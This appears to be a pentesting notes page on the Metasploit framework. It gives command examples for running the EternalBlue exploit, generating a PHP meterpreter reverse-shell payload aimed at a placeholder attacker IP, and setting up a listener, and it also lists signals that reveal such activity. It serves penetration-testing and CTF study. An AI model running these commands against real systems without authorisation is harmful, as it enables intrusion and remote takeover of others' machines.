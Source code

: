```yaml
---
Usage Phase:
  - Privilege Escalation
  - Exploitation
Common Use Cases:
  - Reverse Shell
  - File Transfer
  - Banner Grabbing
  - Simple Port Scan
Interface Type: CLI
---
```

---
# Brief
Metasploit is a powerful open-source exploitation framework used to develop, test, and execute exploits against systems. It includes modules for scanning, payload generation, session handling, and post-exploitation. Often used in red teaming, CTFs, and real-world pentests, it supports automation of common attack workflows and integrates with a backend database for engagement management.

---
# Primary Syntax / Example Usage
- Start Console: `msfconsole`
- Search for Module: `search smb`
- Use Exploit: `use exploit/windows/smb/ms17_010_eternalblue`
- Set Options and Run:
	```metasploit
	set RHOSTS <target>
	set payload windows/x64/meterpreter/reverse_tcp
	set LHOST <attacker_ip>
	set LPORT 4444
	run
	```
- Generate Payload (msfvenom)
	```metasploit
	msfvenom -p php/meterpreter_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f raw > shell.php
	``` 
- Start Listener (Multi/Handler)
	```
	use exploit/multi/handler
	set payload php/meterpreter_reverse_tcp
	set LHOST <attacker_ip>
	set LPORT 4444
	run
	```
- Use DB-backed Nmap: `db_nmap -sV -p- <target_ip>`

---
# Signals of Presence
- Open port `4444`, `7777`, or other listener ports unexpectedly active
- Shell prompt suddenly accessed (`meterpreter >`, `C:\Windows\system32>`)
- File artifacts like `shell.php`, `rev_shell.exe`, `shell.elf`
- Suspicious outbound traffic to attacker-controlled IPs
- HTTP POST or TCP connection spikes from web server processes
- Background sessions (e.g. `sessions -l` shows active shells)

---
# Installation
- Debian Based Systems:
	```
	sudo apt update && sudo apt install metasploit-framework
	```
- Manual setup (with DB):
	```
	sudo systemctl start postgresql
	sudo -u postgres msfdb init
	msfconsole
	```
- Verify DB: `db_status`

---
# Notes
- `msfvenom` replaces `msfpayload` and `msfencode`
- Payloads can be encoded (`-e`) but this is not a full AV evasion
- Use `sessions -i <id>` to interact with active shells
- Workspace feature helps organize multi-target engagements
- Metasploit’s scanners are slower than Nmap; best used for targeted service scans
- `db_nmap` auto-imports results into the Metasploit database
- `loot`, `vulns`, `hosts`, `services` are database-backed info views

---
# Related Techniques
- [T1059 – Command and Scripting Interpreter](Techniques/T1059-Command-and-Scripting-Interpreter)  
- [T1203 – Exploitation for Client Execution](Techniques/T1203-Exploitation-for-Client-Execution)  
- [T1055 – Process Injection](Techniques/T1055-Process-Injection)  
- [T1105 – Ingress Tool Transfer](Techniques/T1105-Ingress-Tool-Transfer)  
- [T1021 – Remote Services](Techniques/T1021-Remote-Services)  


---
# Related CTFs
- [Vulnversity](CTFs/Vulnversity) – Reverse shell via payload injection  
- [Overpass](CTFs/Overpass) – Multi-handler used for reverse shell  
- [Bounty Hacker](CTFs/Bounty%20Hacker) – Enumeration and exploitation  
- [Kenobi](CTFs/Kenobi) – SMB scanning and exploitation  
- [Blue](CTFs/Blue) – EternalBlue / MS17-010 module usage  
- [Lame](CTFs/Lame) – Classic MSF+payload box  

---
# References
- [Metasploit Docs](https://docs.metasploit.com)  
- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed)  
- [TryHackMe – Metasploit Intro](https://tryhackme.com/room/metasploitintro)  
- [TryHackMe – Metasploit Exploitation](https://tryhackme.com/room/metasploitexploitation)  
- [Payload Cheat Sheet – Rapid7](https://docs.rapid7.com/metasploit/payloads)  
- [PayloadsAllTheThings – Path Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)  
- [Official GitHub](https://github.com/rapid7/metasploit-framework)  